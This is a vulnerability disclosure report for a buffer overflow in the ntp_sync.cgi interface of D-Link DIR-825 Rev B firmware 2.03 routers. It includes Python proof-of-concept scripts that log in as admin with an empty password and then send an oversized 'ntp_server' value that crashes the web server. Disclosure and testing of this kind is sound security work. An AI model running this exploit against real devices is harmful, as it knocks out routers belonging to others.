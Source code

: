 

# CVE Report - Buffer Overflow Vulnerability in  DIR_825_REVB_FIRMWARE_2.03 Routers 

## Vulnerability Title

Buffer Overflow Vulnerability in DIR_825_REVB_FIRMWARE_2.03 Routers 

## Vulnerability Description

DLink DIR_825_REVB_FIRMWARE_2.03 devices have a buffer overflow vulnerability in the CGl interface "ntp_sync.cgi",which can cause web server crash via parameter "ntp_server" passed to the "ntp_sync.cgi" binary through a POST request.

## Reproduction Steps

1. Log in to the router.

```python
import requests

device_web_ip = '172.17.0.12'

headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

login_params = login_params = {
    'html_response_page': 'logout_fail.asp',
    'login_name': 'YWRtaW4A',
    'login_n': 'admin',
    'login_pass': '',
    'login': 'Log In'
}
login_url = 'http://{}/login.cgi'.format(device_web_ip)
r = requests.post(url=login_url, data=login_params, headers=headers, timeout=0.2)
if r is None or r.status_code != 200:
  print('Login wrong, please retry!')
  exit()
print(r.text)
```



2. Use the following Python code to test the vulnerability:

```py
#coding=gbk
import requests
import pickle 
import time

device_web_ip = "172.17.0.12"
base_url = "http://172.17.0.12/"

headers = {
    'Host': device_web_ip,
    'Connection': 'keep-alive',
    'Content-Length': '1000',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': f'http://{device_web_ip}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Referer': f'http://{device_web_ip}',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6'
}

target_para = {
    'ntp_server':'a'*3000,
    }
r = requests.post(url=base_url+'ntp_sync.cgi', data=target_para, headers=headers)
print(r.text)
```



## Cause Analysis

The get_cgi function accepts external data. The user affects v4 by setting the ntp_server value. After sprintf splicing, it enters v7 cause crash.

![image-20250312181149813](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250312181149813.png)



## Attack effect

![image-20250312181213536](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250312181213536.png)



## Suggested Fix

Avoid directly passing user input into the sink function.